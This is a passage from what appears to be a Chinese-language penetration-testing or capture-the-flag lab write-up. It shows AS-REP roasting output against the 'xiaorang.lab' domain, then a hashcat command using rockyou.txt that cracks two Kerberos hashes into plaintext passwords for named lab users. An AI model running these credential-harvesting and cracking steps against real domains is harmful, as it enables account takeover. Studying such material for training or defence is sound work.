 ```shell
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:7554860b14de1c569e8a24e23c902448$fa2aefe60b434a6974a46d86a6a7e4c20326276907fc9323fcad51d566a11ef6ab24a17576524ddb981eacfb3a1b1679e01c267751d44c42f3be179394fa727388ebc29ead8d665cc76ff647a7f25ac896f16ed72e5711092cf4cf7930b98ead6e1ac1b5ae4ef2d3538c69799b835e6c0e10f4684168ead6e4e149ebb25092806dbc61f31fb06f0f380bde955d0592b67230d3a952a7de1bddab516e85fb229c86643adc2737bce896f81a623dd299e3c8788c238c32860e7aca956b44571896cff077ca72c93a9fb673aec1f035e5f41d2f2862809f7f0c6967171478e0e72380e0c91f7a4c4c2e13875e3a
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User lihongxia@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wangyulan@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User chenjianhua@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
```

其中有两个用户的 Kerberos 哈希

- lixiuying
- huachunmei

## Kerberos 哈希爆破

使用 `hashcat` 配合 `rockyou.txt` 进行爆破

```shell
PS D:\_Tools\hashcat-6.2.6> .\hashcat.exe -d 1 -O -a 0 -m 18200 .\hash.txt .\dics\rockyou.txt
......
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:7554860b14de1c569e8a24e23c902448$fa2aefe60b434a6974a46d86a6a7e4c20326276907fc9323
3fcad51d566a11ef6ab24a17576524ddb981eacfb3a1b1679e01c267751d44c42f3be179394fa727388ebc29ead8d665cc76ff647a7f25ac896f16ed72e5711092cf4
4cf7930b98ead6e1ac1b5ae4ef2d3538c69799b835e6c0e10f4684168ead6e4e149ebb25092806dbc61f31fb06f0f380bde955d0592b67230d3a952a7de1bddab516e
e85fb229c86643adc2737bce896f81a623dd299e3c8788c238c32860e7aca956b44571896cff077ca72c93a9fb673aec1f035e5f41d2f2862809f7f0c6967171478e0
0e72380e0c91f7a4c4c2e13875e3a:1qaz2wsx
......
$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:5d6328fca1544abbd31c14a61fd2b361$1dcc345e2b2bba51a51610e9d7e2da9c4f164cb25d33939fb
be0d095b0e811dfa68bbbb4bf28c73c53de3b941fb961b95867d0834d09a7ae61c73a7a548ddd2ab63cb06a4f3aa978e879f1790c4b1a2d023877dcfbcb7babc820ad
d34d6c212ef81ab5a1f327e6a201ed696093d4a7d86bb743a52ff2f4b398347b95918918e7ab466db177de4b2904d4426e92725a5de10eb20c287093aef9fc8f6e7de
e761a639b6901cfd88750cd4243b7c4ab990e7939b0e8d3db6a16f20fd9fa187c061f67330549d0f2f4576b3e47c43b1b06441d8aae6b4e9fb4c5128bba6f0525df44
466a4ae689de516da594307dffd2:winniethepooh
```

得到两个凭据

- `huachunmei:1qaz2wsx`
- `lixiuying:winniethepooh`

## 172.22.15.35 获取域内信息
